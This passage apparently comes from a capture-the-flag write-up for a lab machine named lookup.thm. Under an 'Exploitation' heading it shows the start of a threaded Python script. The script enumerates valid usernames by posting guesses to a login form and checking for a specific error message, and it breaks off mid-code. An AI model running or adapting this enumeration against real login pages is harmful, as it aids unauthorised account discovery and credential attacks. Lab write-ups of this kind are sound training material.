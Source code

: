 

# EXPLOITATION
---

### Python
---


```python
import requests
import sys
import threading
from tqdm import tqdm

lock = threading.Lock()
valid_usernames = []
invalid_usernames = []


# Creating the function to check for usernames:

def check_username(url, username):
    # Setting up the invalid error we got from reading the burp request
    invalid_errors = [
        "Wrong username or password. Please try again."
    ]
    # Setting up the headers we got in the burp request
    headers = {
        'Host': 'lookup.thm',
        'User-Agent': 'Intigriti',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,'
                  'image/svg+xml,*/*;q=0.8',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Origin': 'http://lookup.thm',
        'Connection': 'keep-alive',
        'Referer': 'http://lookup.thm/login.php',
        'Upgrade-Insecure-Requests': '1',
        'Priority': 'u=0, i',
    }
    # Creating the dictionary with our data
    data = {
        'username': username,
        'password': 'test',
        'function': 'login'
    }
    try:
        # Sending the request and reading the status code
        response = requests.post(url, headers=headers, data=data, allow_redirects=True)
        if response.status_code != 200:
            return sys.exit(1)
        # If there's no errors in the response text, we can append the username to the empty list we set up before
        if not any(error in response.text for error in invalid_errors):
            with lock:
                print(f'[+] Got valid username: {username}')
                valid_usernames.append(username)
        # Else, we append to invalid usernames list
        else:
            with lock:
```